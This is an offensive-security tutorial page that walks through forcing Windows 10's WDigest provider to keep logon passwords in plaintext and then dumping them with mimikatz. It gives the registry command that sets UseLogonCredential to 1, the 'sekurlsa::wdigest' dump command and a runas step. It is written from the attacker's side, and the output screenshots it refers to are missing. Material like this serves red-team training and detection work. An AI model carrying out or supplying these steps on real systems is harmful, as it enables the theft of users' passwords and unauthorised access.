



# Forcing WDigest to Store Credentials in Plaintext

As part of WDigest authentication provider, Windows versions up to 8 and 2012 used to store logon credentials in memory in plaintext by default, which is no longer the case with newer  Windows versions. 

It is still possible, however, to force WDigest to store secrets in plaintext.

## Execution

Let's first make sure that wdigest is not storing credentials in plaintext on our target machine running Windows 10:


```csharp
sekurlsa::wdigest
```


Note the password field is null:



Now as an attacker, we can modify the following registry key to force the WDigest to store credentials in plaintext next time someone logs on to the target system:


```csharp
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```




Say, now the victim on the target system spawned another shell:


```csharp
runas /user:mantvydas powershell
```


Running mimikatz for wdigest credentials now reveals the plaintext password of the victim user `mantvydas`:



## References




